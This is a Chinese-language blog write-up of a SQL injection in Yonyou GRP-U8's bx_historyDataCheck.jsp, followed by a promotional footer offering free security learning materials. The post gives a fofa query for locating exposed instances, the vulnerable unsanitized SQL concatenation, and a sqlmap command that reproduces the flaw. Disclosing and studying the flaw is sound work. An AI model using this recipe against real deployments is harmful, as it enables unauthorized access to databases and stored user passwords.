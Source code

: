 # 原创
：  用友GRP-U8注入

# 用友GRP-U8注入

### 分享一个拿到CNDV证书的SQL注入，证书截图如下

##### 0x01 漏洞介绍

fofa：app=”用友-GRP-U8”<br/> 用友GRP-U8存在SQL注入，漏洞文件名为bx_historyDataCheck.jsp

##### 0x02 漏洞分析

文件截图如下<br/>  

<br/> 该文件接收3个传参，分别是userName，historyFlag，ysnd<br/> 由于接收传参后并未进行任何过滤，直接将ysnd及userName拼接sql语句进行查询，从而导致sql注入<br/> 先来看拼接语句<br/> sb.append(“select bm.bmdm,bm.bmmc,bm.gsdm,bm.kjnd,zy.zydm,zy.password,zy.zyxm from PUBBMXX bm left join PUBZYXX zy on bm.gsdm=zy.gsdm and bm.kjnd=zy.kjnd and bm.bmdm=zy.bmdm”+” where bm.kjnd=’”+ysnd+”‘ and zy.zydm = ‘“+userName+”‘“);<br/> 由于ysnd在语句前面，我们可以对ysnd进行sql注入测试，userName在后面是否传参均不影响测试<br/> 经过上述分析，直接对目标使用SQLMAP进行测试

##### 0x03 复现

构造sqlmap语句如下<br/> python3 sqlmap.py -u “[http://192.168.0.103:8888/u8qx/bx_historyDataCheck.jsp?ysnd=1](http://192.168.0.103:8888/u8qx/bx_historyDataCheck.jsp?ysnd=1)“<br/> 测试截图如下

复现完成

> 


**学习框架已经整理完毕，现在就差资料资源了，我这里整理了所有知识点对应的资料资源文档，大家不想一个一个去找的话，可以参考一下这些资料！**
**    点赞收藏评论区留言“已关注 求 ”！都可以免费分享给大家！等不及的小伙伴也可以直接厚台踢我！或者关注我之后后台会自动发送给大家！关注后大家注意看后台消息就行！**<br/>  


---


[+V【zkaq222】或者下面的扫码不然通不过哦，免费领取安全学习资料包！（私聊进群一起学习，共同进步）腾讯文档-在线文档<img alt="icon-default.png?t=N7T8" src="https://csdnimg.cn/release/blog_editor_html/release2.3.6/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N7T8"/>https://docs.qq.com/doc/DYmVETWlZemh0Ymdv](https://docs.qq.com/doc/DYmVETWlZemh0Ymdv)
